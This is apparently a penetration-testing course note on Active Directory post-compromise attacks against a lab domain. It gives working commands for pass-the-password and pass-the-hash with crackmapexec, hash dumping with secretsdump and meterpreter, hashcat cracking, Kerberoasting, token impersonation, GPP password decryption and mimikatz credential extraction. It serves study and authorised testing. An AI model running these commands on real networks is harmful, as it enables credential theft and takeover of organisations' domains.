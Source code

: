 # Attacking Active Directory: Post-Compromise Attacks

## Pass attacks

{% embed url="https://www.linkedin.com/posts/wilfried-p_explication-super-claire-lsa-vs-lsass-vs-activity-7054499362453774336-W_2u" %}

pass password

```
crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```

Pass the hash

```
crackmapexec smb 10.0.0.0/24 -u administrator -H [USER-HASH] # in this case we spay 
```

Reminder! Cheatsheet of crackmapexec

\--local-auth : authenticate locally to each target

\--sam : dump SAM hashes from target systems.

\--lsa : dump LSA secrets from target systems.

\--shares: enumerate shares and access

-L : List available modules for each protocol

-M : Specify module

Usage of module&#x20;

```
crackmapexec smb 192.168.138.0/24 -u administrator -H [USER-HASH] --local-auth -M lsassy
```

cmedb the crackmapexec database



## Dumping and cracking hashes

meterpreter hashdump

```
use windows/smb/psexec
run
hasdump #you will get hashes of users.
```

secretdump

```
# method 1
secretsdump.py MARVEL.local/fcastle:Password1@10.0.0.25
# method 2
secretsdump.py administrator:@192.168.138.138 --hashes [LM-HASH]:[NT-HASH]
```

crack

```
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```

## Kerberoasting



```
python GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip [DC_IP] -request

hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

## Token impersonation

use metasploit

```
# use psexec of metasploit and set meterpreter payload
load incognito
load kiwi
list_tokens -u
impersonate_token MARVEL\\administrator # the DC must have been rebooted and admin must have logged in


```

Use rev2self to be again authority\_system



## GPP attack



```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeX0sQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

Or use msf smv\_enum\_gpp if you have user creds&#x20;



## mimikatz

```
mimikatz # privilege::debug

mimikatz # sekurlsa::logonPasswords

```
